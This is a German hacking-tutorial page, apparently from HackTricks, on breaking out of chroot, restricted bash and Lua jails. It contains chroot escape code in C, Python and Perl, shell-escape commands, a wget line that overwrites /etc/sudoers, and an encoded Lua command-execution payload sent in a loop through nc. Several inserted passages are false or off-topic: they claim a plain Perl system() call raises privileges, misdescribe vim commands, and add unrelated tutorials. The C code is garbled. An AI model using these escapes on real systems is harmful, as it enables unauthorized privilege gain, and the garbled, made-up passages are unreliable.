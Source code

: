 # Escaping from Jails

<details>

<summary>Lernen Sie AWS-Hacking von Grund auf mit <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks bewerben möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **GitHub-Repositories** senden.

</details>

## **GTFOBins**

**Suchen Sie in** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **nach Binärdateien mit der Eigenschaft "Shell", die ausgeführt werden können**

## Chroot-Eskapaden

Laut [Wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations) ist der Chroot-Mechanismus **nicht dazu gedacht**, sich gegen vorsätzliche Manipulationen durch **privilegierte** (**root**) **Benutzer** zu verteidigen. Auf den meisten Systemen werden Chroot-Kontexte nicht ordnungsgemäß gestapelt, und chrooted Programme **mit ausreichenden Berechtigungen können einen zweiten Chroot durchführen, um auszubrechen**.\
Normalerweise bedeutet dies, dass Sie root sein müssen, um aus dem Chroot auszubrechen.

{% hint style="success" %}
Das **Tool** [**chw00t**](https://github.com/earthquake/chw00t) wurde entwickelt, um die folgenden Szenarien zu missbrauchen und aus `chroot` auszubrechen.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Wenn Sie **root** in einem Chroot sind, können Sie **ausbrechen**, indem Sie ein **weiteres Chroot** erstellen. Dies liegt daran, dass 2 Chroots (in Linux) nicht gleichzeitig existieren können. Wenn Sie also einen Ordner erstellen und dann **ein neues Chroot** in diesem neuen Ordner erstellen, während Sie **außerhalb davon** sind, befinden Sie sich jetzt **außerhalb des neuen Chroots** und sind daher im Dateisystem.

Dies geschieht normalerweise, weil chroot Ihren Arbeitsverzeichnis nicht in das angegebene Verzeichnis verschiebt, sodass Sie ein Chroot erstellen können, aber außerhalb davon sein können.
{% endhint %}

Normalerweise finden Sie das `chroot`-Binärprogramm nicht in einem Chroot-Gefängnis, aber Sie **könnten ein Binärprogramm kompilieren, hochladen und ausführen**:

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("chroot-dir", 0755); chroot("chroot-dir"); for(int i = 0; i < 1000; i++) { chdir(".."); } chroot("."); system("/bin/bash"); }

````
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
````

</details>

<details>

<summary>Perl</summary>

Perl ist eine interpretierte Programmiersprache, die für ihre Vielseitigkeit und Leistungsfähigkeit bekannt ist. Sie kann verwendet werden, um verschiedene Aufgaben zu automatisieren und komplexe Skripte zu erstellen. Perl-Skripte können auch verwendet werden, um aus einer eingeschränkten Bash-Umgebung auszubrechen und höhere Berechtigungen zu erlangen.

Um aus einer eingeschränkten Bash-Umgebung auszubrechen, können Sie das Perl-Skript verwenden, um eine neue Shell mit höheren Berechtigungen zu starten. Hier ist ein Beispiel für ein Perl-Skript, das dies erreichen kann:

```perl
#!/usr/bin/perl

use strict;
use warnings;

system("/bin/bash");
```

Speichern Sie das Skript in einer Datei mit der Erweiterung ".pl" und führen Sie es aus. Dadurch wird eine neue Shell mit höheren Berechtigungen gestartet, die es Ihnen ermöglicht, auf privilegierte Dateien und Verzeichnisse zuzugreifen.

Es ist wichtig zu beachten, dass das Ausführen dieses Skripts möglicherweise gegen die Sicherheitsrichtlinien eines Systems verstößt und rechtliche Konsequenzen haben kann. Stellen Sie sicher, dass Sie die erforderlichen Berechtigungen haben, um solche Aktionen durchzuführen, und verwenden Sie diese Technik nur zu legitimen Zwecken.

```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```

</details>

### Root + Gespeicherter FD

{% hint style="warning" %}
Dies ist ähnlich wie im vorherigen Fall, aber in diesem Fall **speichert der Angreifer einen Dateideskriptor** auf das aktuelle Verzeichnis und erstellt dann den Chroot in einem neuen Ordner. Schließlich hat er **Zugriff** auf diesen **FD außerhalb** des Chroots und kann entkommen.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>

\`\`\`c #include #include #include

//gcc break\_chroot.c -o break\_chroot

int main(void) { mkdir("tmpdir", 0755); dir\_fd = open(".", O\_RDONLY); if(chroot("tmpdir")){ perror("chroot"); } fchdir(dir\_fd); close(dir\_fd); for(x = 0; x < 1000; x++) chdir(".."); chroot("."); }

````
</details>

### Root + Fork + UDS (Unix Domain Sockets)

<div data-gb-custom-block data-tag="hint" data-style='warning'>

FD kann über Unix-Domain-Sockets übergeben werden, also:

* Erstellen Sie einen Kindprozess (fork)
* Erstellen Sie UDS, damit Eltern und Kind kommunizieren können
* Führen Sie chroot im Kindprozess in einem anderen Ordner aus
* Im Elternprozess erstellen Sie eine FD eines Ordners, der außerhalb des neuen Kindprozess-Chroots liegt
* Übergeben Sie diese FD an den Kindprozess über die UDS
* Der Kindprozess wechselt zu diesem FD und da er außerhalb seines Chroots liegt, entkommt er dem Gefängnis

</div>

### &#x20;Root + Mount

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Mounten Sie das Root-Gerät (/) in ein Verzeichnis innerhalb des Chroots
* Chrooten Sie in dieses Verzeichnis

Dies ist in Linux möglich.

</div>

### Root + /proc

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Mounten Sie procfs in ein Verzeichnis innerhalb des Chroots (falls noch nicht geschehen)
* Suchen Sie nach einer PID, die einen anderen Root/CWD-Eintrag hat, z.B.: /proc/1/root
* Chrooten Sie in diesen Eintrag

</div>

### Root(?) + Fork

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Erstellen Sie einen Fork (Kindprozess) und chrooten Sie in einen anderen Ordner weiter im Dateisystem und wechseln Sie in ihn
* Verschieben Sie vom Elternprozess aus den Ordner, in dem sich der Kindprozess befindet, in einen Ordner vor dem Chroot der Kinder
* Dieser Kindprozess wird sich außerhalb des Chroots befinden

</div>

### ptrace

<div data-gb-custom-block data-tag="hint" data-style='warning'>

* Früher konnten Benutzer ihre eigenen Prozesse von einem eigenen Prozess aus debuggen... aber das ist standardmäßig nicht mehr möglich
* Trotzdem, wenn es möglich ist, können Sie mit ptrace in einen Prozess eintreten und einen Shellcode darin ausführen ([siehe dieses Beispiel](linux-capabilities.md#cap\_sys\_ptrace)).

</div>

## Bash-Gefängnisse

### Enumeration

Holen Sie Informationen über das Gefängnis:
```bash
echo $SHELL
echo $PATH
env
export
pwd
````

#### PATH ändern

Überprüfen Sie, ob Sie die PATH-Umgebungsvariable ändern können.

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

#### Verwendung von vim

Vim ist ein leistungsstarker Texteditor, der auf der Kommandozeile verwendet werden kann. Es gibt verschiedene Möglichkeiten, Vim zu verwenden, um aus einer eingeschränkten Bash-Umgebung auszubrechen und Privilegien zu eskalieren.

**1. Shell-Eingabeaufforderung öffnen**

Um die Shell-Eingabeaufforderung in Vim zu öffnen, geben Sie den folgenden Befehl ein:

```bash
:!bash
```

Dies öffnet eine neue Shell-Eingabeaufforderung innerhalb von Vim, die mit den Berechtigungen des aktuellen Benutzers ausgeführt wird.

**2. Shell-Eingabeaufforderung mit Root-Rechten öffnen**

Wenn Sie Root-Rechte erlangen möchten, können Sie den folgenden Befehl verwenden:

```bash
:!sudo bash
```

Dies öffnet eine neue Shell-Eingabeaufforderung innerhalb von Vim mit Root-Rechten.

**3. Shell-Eingabeaufforderung mit anderen Benutzerrechten öffnen**

Um eine Shell-Eingabeaufforderung mit den Rechten eines anderen Benutzers zu öffnen, verwenden Sie den folgenden Befehl:

```bash
:!sudo -u <benutzername> bash
```

Ersetzen Sie `<benutzername>` durch den Namen des gewünschten Benutzers.

**4. Dateien bearbeiten**

Sie können Vim auch verwenden, um Dateien zu bearbeiten. Geben Sie dazu den folgenden Befehl ein:

```bash
:!vim <dateiname>
```

Ersetzen Sie `<dateiname>` durch den Namen der zu bearbeitenden Datei. Dadurch wird Vim geöffnet und Sie können den Inhalt der Datei bearbeiten.

**5. Befehle ausführen**

Vim ermöglicht es Ihnen auch, Befehle direkt auszuführen. Geben Sie dazu den folgenden Befehl ein:

```bash
:! <befehl>
```

Ersetzen Sie `<befehl>` durch den gewünschten Befehl. Dadurch wird der Befehl in der Shell ausgeführt und das Ergebnis wird in Vim angezeigt.

**6. Vim verlassen**

Um Vim zu verlassen und zur ursprünglichen Bash-Umgebung zurückzukehren, verwenden Sie den Befehl:

```bash
:!exit
```

Dies beendet Vim und kehrt zur ursprünglichen Bash-Umgebung zurück.

```bash
:set shell=/bin/sh
:shell
```

#### Skript erstellen

Überprüfen Sie, ob Sie eine ausführbare Datei mit _/bin/bash_ als Inhalt erstellen können.

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

#### Bash von SSH erhalten

Wenn Sie über SSH zugreifen, können Sie diesen Trick verwenden, um eine Bash-Shell auszuführen:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```

#### Deklarieren

In der Linux-Bash können Variablen deklariert werden, um Werte zu speichern. Die Syntax zum Deklarieren einer Variablen lautet:

```bash
variable_name=value
```

Hierbei wird der Variablen `variable_name` der Wert `value` zugewiesen. Variablennamen können aus Buchstaben, Zahlen und dem Unterstrich bestehen, dürfen jedoch nicht mit einer Zahl beginnen.

Um den Wert einer Variablen abzurufen, kann der Variablenname mit einem Dollarzeichen vorangestellt werden:

```bash
echo $variable_name
```

Dies gibt den Wert der Variablen `variable_name` aus.

Es ist auch möglich, den Wert einer Variablen zu ändern, indem der Variablenname erneut zugewiesen wird:

```bash
variable_name=new_value
```

Dadurch wird der Wert der Variablen `variable_name` auf `new_value` aktualisiert.

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```

#### Wget

Sie können beispielsweise die sudoers-Datei überschreiben.

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

#### Weitere Tricks

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Die folgende Seite könnte auch interessant sein:**

### Python-Gefängnisse

Tricks zum Entkommen aus Python-Gefängnissen finden Sie auf der folgenden Seite:

### Lua-Gefängnisse

Auf dieser Seite finden Sie die globalen Funktionen, auf die Sie in Lua zugreifen können: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Auswertung mit Befehlsausführung:**

```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```

Einige Tricks, um **Funktionen einer Bibliothek ohne Verwendung von Punkten aufzurufen**:

```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```

## Enumerate functions of a library:

To enumerate functions of a library, you can use the following techniques:

1. **Using nm command**: The `nm` command allows you to list symbols from object files or libraries. You can run `nm -D <library>` to display the dynamic symbols of a library. This will show you the function names along with their memory addresses.
2. **Using objdump command**: The `objdump` command can also be used to list symbols from object files or libraries. You can run `objdump -T <library>` to display the dynamic symbols of a library. This will provide you with the function names and their corresponding memory addresses.
3. **Using readelf command**: The `readelf` command is another option to enumerate functions from a library. By running `readelf -s <library>`, you can view the symbol table of the library. This will include the function names and their associated memory addresses.

These techniques can be helpful in understanding the available functions within a library, which can be useful for various purposes such as debugging, reverse engineering, or developing software that utilizes the library's functions.

```bash
for k,v in pairs(string) do print(k,v) end
```

Beachten Sie, dass jedes Mal, wenn Sie den vorherigen Einzeiler in einer **anderen Lua-Umgebung ausführen, die Reihenfolge der Funktionen geändert wird**. Wenn Sie also eine bestimmte Funktion ausführen müssen, können Sie einen Brute-Force-Angriff durchführen, indem Sie verschiedene Lua-Umgebungen laden und die erste Funktion der Bibliothek "le" aufrufen:

```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```

**Interaktive Lua-Shell erhalten**: Wenn Sie sich in einer begrenzten Lua-Shell befinden, können Sie eine neue Lua-Shell (hoffentlich uneingeschränkt) aufrufen, indem Sie Folgendes eingeben:

```bash
debug.debug()
```

### Referenzen

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Folien: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))



</details>
